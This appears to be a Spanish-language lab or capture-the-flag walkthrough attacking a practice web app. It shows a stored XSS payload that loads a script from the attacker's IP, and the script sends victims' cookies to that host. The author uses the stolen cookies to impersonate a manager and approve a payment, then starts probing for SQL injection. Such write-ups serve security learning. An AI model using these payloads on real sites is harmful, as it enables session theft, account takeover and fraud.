Nos salta una alerta con el cuerpo de **XSS**, por lo que entendemos que es vulnerable otra vez a un **[[XSS]]**.   

![[Pasted image 20240731233214.png]]

Como vemos que posiblemente nuestro **Manager** se encuentre en el chat ya que ha escrito un mensaje, volveremos a probar ha aplicar un **Cookie Hijacking**, y así poder convertirnos en nuestro **Manager** y aceptar la solicitud para recibir el dinero. 

Para ello, escribiremos el siguiente cuerpo del mensaje el cual lo que hace es enviar una petición por **GET** al recurso **cookie.js** de mi [[Dirección IP]].

```js
<script src="http://192.168.18.107/cookie.js"></script>
```

![[Pasted image 20240731233708.png]]

El contenido de **cookie.js** será el mismo que antes, ya que queremos aplicar un **Cookie Hijacking**.

```js
var req = new XMLHttpRequest();
req.open('GET', 'http://192.168.18.107/?cookie=' + document.cookie);
req.send();
```

Vemos un montón de **Cookies** por lo que nos tocará ir probando hasta convertirnos en nuestro **Manager** (Manon Riviere).

![[Pasted image 20240731233952.png]]

Cuando conseguimos convertirnos en **Manon Riviere** (**mriviere**), nos dirigimos al mismo panel de antes para aceptar la validar de que se nos paguen los **700€**.

![[Pasted image 20240731235327.png]]

Ahora será el **Manager** de **Manon Riviere** quién de el último visto bueno sobre dicha solitud, observamos que nuestro **Manager** es **Paul Baudouin**. 

> Podemos volver a intentar un **Cookie Hijacking** para convertirnos en **Paul Baudouin**, es posible de que se encuentre en el chat ya que ha comentado hace poco, pero veremos que no veremos su **Cookie** por ningún lado ya que actualmente no está en el chat.
  
![[Pasted image 20240731235111.png]]

___
## [[SQL Inyection]]

Una vez probado que no podemos convertirnos en **Paul Baudouin** a través de un **Cookie Hijacking**, pasaremos a intentar una [[SQL Inyection|inyección SQL]] a través de la siguiente dirección `http://192.168.18.174/site.php?id=2`. 

En primer lugar, intentamos colar una comilla simple  (**'**) y observamos que nos da un error.

```sql
http://192.168.18.174/site.php?id=2'
```
